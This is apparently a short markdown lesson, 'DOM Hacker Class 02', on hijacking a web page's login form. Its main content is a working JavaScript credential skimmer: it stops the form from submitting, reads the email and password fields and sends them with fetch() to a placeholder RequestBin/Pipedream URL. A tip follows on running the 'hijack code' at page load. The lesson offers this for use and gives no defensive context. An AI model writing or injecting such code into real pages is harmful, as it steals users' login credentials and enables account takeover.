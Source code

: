 # DOM Hacker Class 02 - Input Hijacking & Live Data Capture

## Lessoons learnt
> - How to grab user input in real-time using DOM
> - How to listen for `onclick` or `onsubmit` events
> - Sending data to your own server (RequestBin)
------

## ✅ Real-Time Input Capture Script
```js
document.getElementById("loginBtn").onclick = function(event) {
  event.preventDefault();

  let email = document.getElementById("email").value;
  let pass = document.getElementById("password").value;

  fetch("https://YOUR-REQUESTBIN.x.pipedream.net?email=" + email + "&pass=" + pass);
};
```
## Tip
If the button or form doesn't exist yet when your script runs, use:
```js
window.onload = function() {
  // Your hijack code here
}
```
